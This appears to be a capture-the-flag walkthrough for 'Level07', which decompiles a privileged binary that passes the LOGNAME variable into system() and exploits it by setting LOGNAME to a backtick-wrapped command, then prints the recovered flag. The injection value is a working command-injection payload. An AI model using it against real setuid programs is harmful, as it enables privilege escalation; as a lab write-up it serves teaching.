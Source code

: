 

# **Level07**

### **Walk through**

In this level, we have a binary level07

`./level07` gives us `level07`

Not so much clues at this point. Using [**ghidra**](https://www.csoonline.com/article/567221/how-to-get-started-using-ghidra-the-free-reverse-engineering-tool.html), we can disassemble the binary in C code. 

```C
int main(int argc,char **argv,char **envp) {
  char *pcVar1;
  int iVar2;
  char *buffer;
  gid_t gid;
  uid_t uid;
  char *local_1c;
  __gid_t local_18;
  __uid_t local_14;
  
  local_18 = getegid();
  local_14 = geteuid();
  setresgid(local_18,local_18,local_18);
  setresuid(local_14,local_14,local_14);
  local_1c = (char *)0x0;
  pcVar1 = getenv("LOGNAME");
  asprintf(&local_1c,"/bin/echo %s ",pcVar1);
  iVar2 = system(local_1c);
  return iVar2;
}
```

Those two lines are particularly interesting:

`pcVar1 = getenv("LOGNAME");`  
`asprintf(&local_1c,"/bin/echo %s ",pcVar1);`  

We see that the env var **LOGNAME** is echoed. Indeed when we look at the env, we observe that: `LOGNAME=level07` which makes sense with the current output of `./level07`.

The idea is to change the value of **LOGNAME** to be `getflag`. The issue is that `/bin/echo getflag` just echo `getflag`. The trick is to set `getflag` between back ticks since when echo is follow by an expression between back ticks it executes and prints the result of the expression. Let's change the value of our env var.

```
export LOGNAME='`getflag`'
```

Now, `./level07` gives us:

**`fiumuikeil55xe9cu4dood66h`**

We will use it to log as level08

`su level08`
